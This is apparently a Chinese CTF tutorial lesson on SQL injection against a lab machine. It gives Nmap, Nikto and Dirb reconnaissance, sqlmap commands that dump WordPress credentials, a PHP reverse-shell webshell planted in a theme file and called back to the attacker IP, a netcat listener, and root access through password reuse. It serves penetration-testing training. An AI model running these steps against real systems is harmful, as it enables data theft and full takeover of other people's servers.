# CTF夺旗赛教程：P13：15.CTF夺旗-sql注入

## 概述
在本节课中，我们将学习CTF训练中一个非常关键的Web安全漏洞：SQL注入。我们将通过一个完整的实战案例，演示如何从信息收集开始，发现并利用SQL注入漏洞，最终获取目标服务器的最高权限（root权限）和flag。

## 什么是SQL注入？🔍
上一节我们介绍了课程概述，本节中我们来看看SQL注入的核心概念。

SQL注入攻击是指攻击者通过构造特殊的输入作为参数，传入Web应用程序。这些恶意输入会被程序当作SQL代码的一部分执行，从而使攻击者能够执行非授权的数据库操作。

其根本原因是程序没有对用户输入的数据进行细致的过滤，或者过滤不严格，导致非法数据侵入了系统。

**核心公式**可以理解为：
`恶意用户输入` + `未过滤的应用程序` => `被执行的恶意SQL语句`

## 注入点在哪里？
理解了SQL注入的原理后，我们来看看它可能发生的位置。

其实，**任何一个用户可以输入的位置都有可能成为注入点**。常见的注入点包括：
*   在URL中传递的参数（GET请求）。
*   在HTTP报文中通过POST方式传递的参数。

## 实验环境搭建 💻
在开始实战之前，我们需要明确实验环境。

以下是本次实验的环境配置：
*   **攻击机**：使用Kali Linux，IP地址为 `192.168.1.11`。
*   **靶机**：使用Ubuntu系统，IP地址为 `192.168.1.104`。

我们的目标是：挖掘靶机上的漏洞，获得主机的最高权限（root权限），最终取得对应的flag值。

## 第一步：信息收集
拿到靶场IP地址后，第一步是进行信息探测，了解目标开放了哪些服务。

### 端口扫描
我们使用 `Nmap` 工具来探测靶机开放的全部端口。

以下是使用的命令和参数解释：
```bash
nmap -sS -p- -T4 192.168.1.104
```
*   `-sS`: 进行TCP SYN扫描。
*   `-p-`: 扫描所有端口（1-65535）。
*   `-T4`: 使用较快的扫描速度。
*   `192.168.1.104`: 目标靶机的IP地址。

扫描过程可能需要一些时间。在等待时，可以使用 `ping` 命令测试网络连通性。

### 详细服务探测
除了扫描开放端口，我们还可以使用Nmap获取更详细的信息。

以下是进行深度扫描的命令：
```bash
nmap -T4 -A -v 192.168.1.104
```
*   `-A`: 启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`: 显示详细输出。

扫描结果显示，靶机开放了80端口（HTTP服务）和8080端口（HTTP服务）。这意味着我们可以对Web服务进行进一步的探测。

### Web目录与敏感文件探测
针对开放的HTTP服务，我们可以使用工具来探测其存在的敏感目录和文件。

以下是两个常用的工具：
1.  **Nikto**：用于扫描Web服务器上的敏感文件和潜在漏洞。
    ```bash
    nikto -h http://192.168.1.104
    ```
2.  **Dirb**：用于通过字典暴力破解Web目录和文件。
    ```bash
    dirb http://192.168.1.104
    ```



**注意**：如果HTTP服务使用的是默认的80端口，URL中可以省略端口号；如果使用其他端口（如8080），则必须指明。



通过扫描，我们发现了几个关键信息：
*   80端口存在一个 `login.php` 登录页面。
*   80端口存在 `/phpmyadmin/` 目录（MySQL数据库管理界面）。
*   8080端口运行着一个基于WordPress搭建的网站。





## 第二步：漏洞分析与利用
收集到足够信息后，我们需要对其进行分析，并尝试寻找可利用的漏洞。





### 初步漏洞扫描
我们可以使用自动化漏洞扫描器（如OWASP ZAP）对目标进行初步扫描。但需要注意的是，扫描器结果并非绝对准确，可能存在误报或漏报。

在对80端口的 `login.php` 页面进行测试时，尝试常用弱口令（如admin/123456）失败。此时，我们应怀疑该登录框是否存在SQL注入漏洞。

### SQL注入漏洞检测与利用
我们将使用强大的自动化SQL注入工具 **sqlmap** 来检测 `login.php` 页面。

为了使用sqlmap，我们需要先捕获登录时提交的HTTP请求数据包。这里使用Burp Suite作为代理抓包工具。



**操作步骤如下：**
1.  配置浏览器代理指向Burp Suite（如127.0.0.1:8080）。
2.  在Burp Suite中开启代理拦截。
3.  在浏览器中访问 `http://192.168.1.104/login.php`，输入任意用户名和密码（如test/test）并提交。
4.  在Burp Suite中捕获到这个POST请求，将其内容保存到一个文件（如 `request.txt`）。



接下来，使用sqlmap加载这个请求文件进行注入测试。


以下是使用的sqlmap命令：
```bash
sqlmap -r request.txt --level=3 --risk=3 --dbs --dbms=mysql --batch
```
*   `-r request.txt`: 从文件中加载HTTP请求。
*   `--level=3`: 测试等级（1-5，等级越高测试越全面）。
*   `--risk=3`: 风险等级（1-3，等级越高可能对目标造成的影响越大）。
*   `--dbs`: 枚举数据库管理系统中的数据库。
*   `--dbms=mysql`: 指定后端数据库为MySQL，提高检测效率。
*   `--batch`: 以非交互模式运行，所有问题都按默认设置回答。

sqlmap成功检测到注入点，并列出了数据库。我们发现一个名为 `wordpress` 的数据库，这与我们在8080端口发现的WordPress站点吻合。



### 深入数据库获取凭证
我们的目标是获取WordPress后台的管理员凭证。接下来，我们一步步提取数据。

以下是查询 `wordpress` 数据库中用户表的命令序列：
1.  枚举数据库中的表：
    ```bash
    sqlmap -r request.txt -D wordpress --tables
    ```
2.  枚举指定表（如 `wp_users`）的列：
    ```bash
    sqlmap -r request.txt -D wordpress -T wp_users --columns
    ```
3.   dump指定列的数据（如 `user_login`, `user_pass`）：
    ```bash
    sqlmap -r request.txt -D wordpress -T wp_users -C user_login,user_pass --dump
    ```



成功获取到用户名（`admin`）和密码哈希值。WordPress的密码通常使用加盐的MD5哈希存储，但在此实验环境中，我们直接获取到了明文密码 `supersecurepassword`。



## 第三步：权限提升与获取Flag
拿到后台凭证后，我们的攻击进入了新阶段。





### 登录后台与Webshell上传
1.  访问WordPress后台登录页（通常为 `http://192.168.1.104:8080/wp-login.php`）。
2.  使用获取到的凭证（admin/supersecurepassword）成功登录。
3.  在WordPress后台，通过编辑主题文件（如 `404.php`）来插入恶意代码（Webshell）。我们将Kali自带的PHP反向Shell代码写入该文件。
    *   Webshell路径：`/usr/share/webshells/php/php-reverse-shell.php`
    *   修改其中的 `$ip` 变量为攻击机IP（`192.168.1.11`），`$port` 变量为监听端口（如 `4444`）。





### 建立连接与反弹Shell
1.  在攻击机上启动Netcat监听器，等待反向连接：
    ```bash
    nc -nlvp 4444
    ```
2.  在浏览器中访问包含Webshell的页面（如 `http://192.168.1.104:8080/wp-content/themes/twentythirteen/404.php`），触发反向连接。
3.  此时，Netcat监听器会获得一个来自靶机的Shell连接。

### 升级Shell与提权
初始获得的Shell可能功能不全。我们可以使用Python将其升级为完全交互式的TTY Shell。
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

现在，我们拥有一个更稳定的Shell。接下来尝试提权至root。
1.  尝试切换到root用户：
    ```bash
    su -
    ```
2.  系统提示输入密码。我们尝试使用之前获得的WordPress管理员密码 `supersecurepassword`。
3.  输入密码后，成功获得root权限！通过 `id` 命令可以验证（`uid=0` 表示root）。

### 寻找Flag
获得root权限后，就可以在文件系统中寻找flag了。通常flag会放在根目录、用户主目录或特定提示的目录下。
```bash
find / -name "*flag*" -o -name "*FLAG*" 2>/dev/null
cat /root/flag.txt
```
最终，我们成功读取到flag，完成了整个渗透测试过程。

## 总结
在本节课中，我们一起学习了SQL注入攻击的完整链条：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标信息。
2.  **漏洞发现**：通过手动测试和工具（sqlmap）结合，发现SQL注入点。
3.  **漏洞利用**：利用sqlmap自动化提取数据库中的敏感信息（如用户凭证）。
4.  **横向移动**：使用获取的凭证登录Web后台（WordPress）。
5.  **权限提升**：通过上传Webshell获取初始立足点，并利用密码复用成功提权至root。
6.  **目标达成**：获取系统最高权限，找到并读取flag。

**核心要点**：
*   用户输入点都是潜在的注入点。
*   自动化扫描工具的结果需要人工复核，不可全信。
*   渗透测试是一个循序渐进的过程，每一步获取的信息都为下一步提供线索。
*   密码复用是常见的脆弱点，在获取一组凭证后，应尝试在其他地方使用。



通过这个案例，你应该对SQL注入的危害和利用方式有了直观的认识。在后续的学习中，你将接触到更多类型的漏洞和更复杂的利用场景。